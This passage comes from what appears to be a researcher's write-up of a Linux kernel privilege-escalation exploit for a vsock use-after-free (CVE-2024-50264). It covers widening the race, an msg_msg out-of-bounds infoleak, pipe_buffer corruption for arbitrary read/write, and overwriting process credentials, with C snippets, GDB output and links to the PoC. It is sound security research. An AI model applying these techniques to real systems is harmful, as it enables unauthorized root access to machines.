5. For every `epoll` instance, use `epoll_ctl()` to add all duplicated file descriptors to the interest list -- each `epoll` instance now monitors all available `timerfd` copies.
6. Finally, arm the `timerfd` so the interrupt hits the kworker at just the right moment:
 ```c
timerfd_settime(timerfd, TFD_TIMER_CANCEL_ON_SET, &retard_tmo, NULL)
 ```

This procedure made my race-condition window around 80 times longer.

I wanted some more time to complete the cross-cache attack with a guarantee, but ran into a limit not mentioned in the original write-up. If you exceed the limit in `/proc/sys/fs/epoll/max_user_watches`, `epoll_ctl()` fails. From `man 7 epoll`:
> This specifies a limit on the total number of file descriptors that a user can register across all epoll instances on the system. The limit is per real user ID. Each registered file descriptor costs roughly 90 bytes on a 32-bit kernel, and roughly 160 bytes on a 64-bit kernel. Currently, the default value for max_user_watches is 1/25 (4%) of the available low memory, divided by the registration cost in bytes.

On Ubuntu Server 24.04 with 2 GiB of RAM, `/proc/sys/fs/epoll/max_user_watches` is 431838, which is not huge. I could afford 8 forks × 500 `epoll` instances × 100 duplicated file descriptors, for a total of 400000 `epoll` watches.

That was just enough to beat **Limitation #3**, and I finally got `msg_msg` data size corruption: the vsock UAF changed `msg_msg.m_ts` from 48 bytes to 8192 (`MSGMAX`). Now I could do out-of-bounds reading of the kernel memory using the `msgrcv()` syscall.

## Sorting the loot

The corrupted `msg_msg` allowed me to read 8 KiB of data from the kernelspace.  I sorted this loot and found a promising infoleak: a kernel address `0xffffffff8233cfa0` [1]. This infoleak was quite stable and worked with high probability, so I decided to investigate it without doing any additional heap feng shui. GDB showed that it was a pointer to the `socket_file_ops()` kernel function. I was excited to discover that this function pointer is part of `struct file`, because the `file` kernel object also contains the `f_cred` pointer [2], which leaked as well.

Here's how I examined the memory leaked by `msg_msg` at `0xffff88800e75d600`:
```
gef> p *((struct file *)(0xffff88800e75d600 + 96*26 + 64))
$61 = {
  f_count = {
    counter = 0x0
  },
  f_lock = {
    {
      rlock = {
        raw_lock = {
          {
            val = {
              counter = 0x0
            },
            {
              locked = 0x0,
              pending = 0x0
            },
            {
              locked_pending = 0x0,
              tail = 0x0
            }
          }
        }
      }
    }
  },
  f_mode = 0x82e0003,
  f_op = 0xffffffff8233cfa0 <socket_file_ops>,    [1]
  f_mapping = 0xffff88800ee66f60,
  private_data = 0xffff88800ee66d80,
  f_inode = 0xffff88800ee66e00,
  f_flags = 0x2,
  f_iocb_flags = 0x0,
  f_cred = 0xffff888003b7ad00,                    [2]
  f_path = {
    mnt = 0xffff8880039cec20,
    dentry = 0xffff888005b30b40
  },
  ...
```

As a result, my PoC exploit obtained a pointer to `struct cred`, the structure that stores the current process credentials. The last piece needed for privilege escalation was arbitrary address writing. With that, I could overwrite the exploit process credentials and become root. That would be a data-only attack with no control-flow hijack.

## In search of arbitrary address writing primitive

The most interesting and difficult part of the research began here. I was searching for a target kernel object for my UAF write, which could provide an arbitrary address writing exploit primitive. The search was exhausting. I've done the following:
- Looked through dozens of kernel objects,
- Read many kernel exploit write-ups,
- Tried [Kernel Exploitation Dashboard](https://kernelctf-dash.storage.googleapis.com/processed/v6.1.111/index.html#!heap/*/msg_msg/64..128) by Eduardo Vela and the KernelCTF team.

One idea was to combine my limited UAF write with the Dirty Page Table attack ([well described](https://web.archive.org/web/20250226150503/https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html) by Nicolas Wu). Tweaking page tables can let an attacker read and write data at arbitrary physical address.

I could combine my UAF with a cross-cache attack (or more accurately, cross-allocator attack) to modify page tables. To overwrite kernel text or heap, though, I still needed to know the physical address of the target memory. Two options came to mind:
1. Bruteforcing physical addresses. Not practical here: I could trigger the UAF only about five times before the kworker crashed, nowhere near enough tries.
2. Using the KASLR infoleak from my `msg_msg` out-of-bounds read. I decided to try that.

I ran a quick experiment to see how KASLR behaves on `X86_64` with `CONFIG_RANDOMIZE_BASE` and `CONFIG_RANDOMIZE_MEMORY` enabled. Booting a virtual machine several times, I compared the virtual and physical addresses of kernel `_text`.

VM run #1:
```
gef> ksymaddr-remote
[+] Wait for memory scan
0xffffffff98400000 T _text

gef> v2p 0xffffffff98400000
Virt: 0xffffffff98400000 -> Phys: 0x57400000
```

VM run #2:
```
gef> ksymaddr-remote
[+] Wait for memory scan
0xffffffff81800000 T _text

gef> v2p 0xffffffff81800000
Virt: 0xffffffff81800000 -> Phys: 0x18600000
```

Then I calculated the difference between the virtual and physical addresses:
- VM run #1: `0xffffffff98400000 − 0x57400000 = 0xffffffff41000000`
- VM run #2: `0xffffffff81800000 − 0x18600000 = 0xffffffff69200000`

Because `0xffffffff41000000` is not equal to `0xffffffff69200000`, leaking the virtual KASLR offset doesn't help against physical KASLR.

<center><img src="/img/kaslr.jpg" width="60%"></center><br>

Thereby to perform Dirty Page Table attack, I needed a way to leak a kernel physical address. Ideally I would do this by mixing some page-allocator feng shui with my out-of-bounds read. That felt messy, and I wanted a cleaner solution.

I kept looking for a target kernel object for my UAF write, which could provide an arbitrary address writing and eventually focused on `pipe_buffer`.

When a pipe is created with the `pipe()` system call, the kernel allocates an array of `pipe_buffer` structures. Each `pipe_buffer` item in this array corresponds to a memory page that holds data written to the pipe. The diagram below shows the internals of this object:

<center><img src="/img/pipe_buffer.png" width="50%"></center><br>

This object looked like a good UAF target. I could make a `pipe_buffer` array the same size as `virtio_vsock_sock` by changing the capacity of the pipe: `fcntl(pipe_fd[1], F_SETPIPE_SZ, PAGE_SIZE * 2)`. The kernel changes the array size to `2 * sizeof(struct pipe_buffer) = 80 bytes`, exactly matching the `virtio_vsock_sock` size.

In addition, 4 attacker-controlled bytes from the vsock UAF write at offset 24 can flip `pipe_buffer.flags`, just as in Max Kellermann's original [Dirty Pipe attack](https://dirtypipe.cm4all.com/).

<center><img src="/img/uaf_write_pipe_buffer0.png" width="90%"></center><br>

The original Dirty Pipe attack doesn't even need an infoleak and grants privilege escalation with a one-shot write. Impressed, I decided to experiment with `pipe_buffer` in my `kernel-hack-drill`.

## Experimenting with the Dirty Pipe attack

First, I built a Dirty Pipe prototype in `kernel-hack-drill`; the PoC exploit `drill_uaf_w_pipe_buffer.c` is in the [repository](https://github.com/a13xp0p0v/kernel-hack-drill/blob/e3a105cde99912c89c2c1470a29101eb0d9c2d56/drill_uaf_w_pipe_buffer.c). It:
1. performs a cross-cache attack and reclaims the slab that held `drill_item_t` objects as a slab for `pipe_buffer` objects
2. exploits the UAF write to `drill_item_t`; the attacker-controlled bytes written to `drill_item_t` at offset 24, modify `pipe_buffer.flags`
3. implements the Dirty Pipe attack, achieving LPE in one shot without an infoleak, cool!

To use this technique in my CVE-2024-50264 PoC exploit, I still had to bypass the last remaining **Limitation #6**: the kworker hangs before the UAF write if `virtio_vsock_sock.tx_lock` is non-zero. I managed to solve that by doing `splice()` from a regular file to the pipe, starting at offset zero:
```c
	loff_t file_offset = 0;
	ssize_t bytes = 0;

	/* N.B. splice modifies the file_offset value */
	bytes = splice(temp_file_fd, &file_offset, pipe_fd[1], NULL, 1, 0);
	if (bytes < 0)
		err_exit("[-] splice");
	if (bytes != 1)
		err_exit("[-] splice short");
```

In that case, the `pipe_buffer.offset` field remains zero, so the kworker does not hang while acquiring the spinlock:

<center><img src="/img/uaf_write_pipe_buffer2.png" width="90%"></center><br>

This seemed like a breakthrough -- until I noticed that the UAF write also corrupted the `pipe_buffer.ops` function pointer by four zero bytes of `peer_fwd_cnt`. That unfortunate side effect provoked kernel crashes on every later operation involving `pipe_buffer` ☹️:

<center><img src="/img/uaf_write_pipe_buffer3.png" width="90%"></center><br>

This brought me to the following line of reasoning:
1. Completing the Dirty Pipe attack requires a working `pipe_buffer` with an unchanged `ops` pointer value.
2. Preserving `0xffffffff` in the most significant bytes of the `pipe_buffer.ops` function pointer requires that same value in `peer_fwd_cnt`.
3. Setting `peer_fwd_cnt` in `virtio_vsock_sock` means sending data through the vsock.
4. Sending data through a vsock first needs a successful `connect()`.
5. However, a successful `connect()` on the vulnerable vsock makes the UAF impossible ⛔.

Alas!

## Pipe buffer entertainment

So the original Dirty Pipe technique wouldn't fit my CVE-2024-50264 PoC exploit. But suddenly an idea struck me:
> What if I create a pipe with capacity `PAGE_SIZE * 4` forcing the kernel to allocate four `pipe_buffer` objects in `kmalloc-192`?

In that case, the memory object overlapping looked like this: four `pipe_buffer` objects in one `kmalloc-192` slab are allocated at the place of two `virtio_vsock_sock` objects in two `kmalloc-96` slabs. The following diagram illustrates the overlap:

<center><img src="/img/uaf_write_pipe_buffer7.png" width="90%"></center><br>

Here, memory corruption can land on either of the two `virtio_vsock_sock` objects. I'll cover these cases one at a time.

To avoid the kernel hang and crash when the UAF hits `virtio_vsock_sock` **#1**, I used two tricks:
1. Performed a `splice()` from a regular file to the pipe with a starting offset of zero. As mentioned earlier, this keeps the `offset` field of the first `pipe_buffer` at zero, so the kworker doesn't hang while acquiring the spinlock.
2. Discarded that first `pipe_buffer` **before triggering the UAF**, leaving its `offset` field untouched:
    ```c
    /* Remove the first pipe_buffer without changing the `pipe_buffer.offset` */
    bytes = splice(pipe_fd[0], NULL, temp_pipe_fd[1], NULL, 1, 0);
    if (bytes < 0)
    	err_exit("[-] splice");
    if (bytes == 0)
    	err_exit("[-] splice short");

    /*
     * Let's read this byte and empty the first pipe_buffer.
     * So if the UAF writing corrupts the first pipe_buffer,
     * that will not crash the kernel. Cool!
     */
    bytes = read(temp_pipe_fd[0], pipe_data_to_read, 1); /* 1 spliced byte */
    if (bytes < 0)
    	err_exit("[-] pipe read 1");
    if (bytes != 1)
    	err_exit("[-] pipe read 1 short");
    ```
  After this sequence of `splice()` and `read()`, the first `pipe_buffer` becomes inactive. Even if the subsequent UAF overwrites its `ops` pointer, later pipe operations won't dereference that corrupted pointer, so no kernel crash occurs.

I wanted to exploit the UAF on `virtio_vsock_sock` **#2** to overwrite the fourth `pipe_buffer`. To prevent the kernel hang when the UAF hits this second `virtio_vsock_sock`, I called the same `splice(temp_file_fd, &file_offset, pipe_fd[1], NULL, 1, 0)` two more times. These syscalls initialized the second and third `pipe_buffer` objects, leaving their `flags` at zero, since this pipe operation doesn't set any `PIPE_BUF_FLAG_*` bits. Therefore, if the UAF occurs on the second `virtio_vsock_sock`, the `spin_lock_bh()` in `virtio_transport_space_update()` will not hang.

These preparations of the pipe opened a door for corrupting the `page` pointer of the fourth `pipe_buffer`:

<center><img src="/img/uaf_write_pipe_buffer6.png" width="90%"></center><br>

`kernel-hack-drill` let me experiment with `pipe_buffer` objects. Without it, crafting this exploit primitive for the tricky CVE-2024-50264 would have been extremely hard.

# AARW and KASLR's last revenge

In a `pipe_buffer`, the `page` pointer holds the address of a `struct page` inside the virtual memory map (`vmemmap`). `vmemmap` is an array of these structures that allows the kernel to address physical memory efficiently. It is [mentioned](https://elixir.bootlin.com/linux/v6.15.5/source/Documentation/arch/x86/x86_64/mm.rst) in `Documentation/arch/x86/x86_64/mm.rst`:
```
____________________________________________________________|___________________________________________________________
                  |            |                  |         |
 ffff800000000000 | -128    TB | ffff87ffffffffff |    8 TB | ... guard hole, also reserved for hypervisor
 ffff880000000000 | -120    TB | ffff887fffffffff |  0.5 TB | LDT remap for PTI
 ffff888000000000 | -119.5  TB | ffffc87fffffffff |   64 TB | direct mapping of all physical memory (page_offset_base)
 ffffc88000000000 |  -55.5  TB | ffffc8ffffffffff |  0.5 TB | ... unused hole
 ffffc90000000000 |  -55    TB | ffffe8ffffffffff |   32 TB | vmalloc/ioremap space (vmalloc_base)
 ffffe90000000000 |  -23    TB | ffffe9ffffffffff |    1 TB | ... unused hole
 ffffea0000000000 |  -22    TB | ffffeaffffffffff |    1 TB | virtual memory map (vmemmap_base)
 ffffeb0000000000 |  -21    TB | ffffebffffffffff |    1 TB | ... unused hole
 ffffec0000000000 |  -20    TB | fffffbffffffffff |   16 TB | KASAN shadow memory
__________________|____________|__________________|_________|____________________________________________________________
```

Hence, when I managed to perform a UAF write of controlled data to the `pipe_buffer.page` pointer, I gained arbitrary address reading and writing (AARW) via the pipe. However, I wasn't able to change the AARW target address many times, as I mentioned in **Limitation #5**, so I had to choose the target in `vmemmap` carefully.

My first thought was to overwrite part of the kernel code. But with KASLR enabled, I didn't know the physical address of kernel `_text` and therefore couldn't determine its location inside `vmemmap`.

That's why I decided to use the pipe AARW against `struct cred` in the kernel heap. As I described earlier, I leaked the virtual address of `cred` using my `msg_msg` out-of-bounds read. This virtual address looked like `0xffff888003b7ad00`, and I understood it was from the direct mapping of all physical memory. So I used the following formula to calculate the offset of the corresponding `struct page` in `vmemmap`:
```c
#define STRUCT_PAGE_SZ 64lu
#define PAGE_ADDR_OFFSET(addr) (((addr & 0x3ffffffflu) >> 12) * STRUCT_PAGE_SZ)
uaf_val = PAGE_ADDR_OFFSET(cred_addr);
```

The idea behind it is simple:
- `addr & 0x3ffffffflu` gives the offset of the `struct cred` from the `page_offset_base`.
- Right shift by 12 gives the number of the memory page containing `struct cred`.
- Finally, multiplication by 64 (the size of `struct page`) gives the offset of the corresponding `struct page` in the `vmemmap`.

This formula should be adapted if the system has more than 4 GiB of RAM. In that case, `ZONE_NORMAL` containing kernel allocations usually starts at address `0x100000000`. Hence, to calculate the offset of the needed `struct page`, we should add `(0x100000000 >> 12) * STRUCT_PAGE_SZ`.

Excellent, the described formula is independent of KASLR for physical addresses, so I could use it to calculate the four lower bytes of the target address for exploiting the pipe AARW against the `struct cred`. Why I needed only four lower bytes of `pipe_buffer.page`:
- My UAF write to `peer_buf_alloc` performed partial overwriting of the first half of the `pipe_buffer.page` pointer, as I showed at the diagram above.
- `x86_64` is little-endian, so the first half of the pointer contains four lower bytes of the address.

But when I tried this approach, KASLR carried out its last revenge. It randomized the `vmemmap_base` address, and the four lower bytes of the `struct page` pointers carried **two random bits**. Ouch!

However, I decided to brute-force those two bits because I could achieve the UAF write around 5 times before the kworker got a null-ptr-deref after `VSOCK_CLOSE_TIMEOUT` (8 sec).

<center><img src="/img/bruteforce4.jpg" width="60%"></center><br>

I found that probing different values of `pipe_buffer.page` from userspace works perfectly well:
- In case of fail, reading from the pipe simply returns `Bad address`.
- In case of success, reading from the pipe gives `struct cred` contents.

Great! I could finally determine a proper AARW target address, write to the pipe, overwrite euid and egid with 0, and get root. See the PoC exploit demo:

<div style="position:relative;padding-top:56.25%;">
  <iframe src="https://www.youtube.com/embed/qC95zkYnwb0" frameborder="0" allowfullscreen
    style="position:absolute;top:0;left:0;width:100%;height:100%;"></iframe>
</div>
<br/>

## Conclusion

Bug collisions are painful. Finishing the research anyway is rewarding. Let me quote my good friend:

<center><img src="/img/yoda.jpg" width="60%"></center><br>

Working on this hard race condition with multiple limitations allowed me to discover new exploitation techniques and to use and improve my pet project [kernel-hack-drill](https://github.com/a13xp0p0v/kernel-hack-drill), which provides a testing environment for Linux kernel security researchers. You are welcome to try it and contribute.

Thanks for reading!
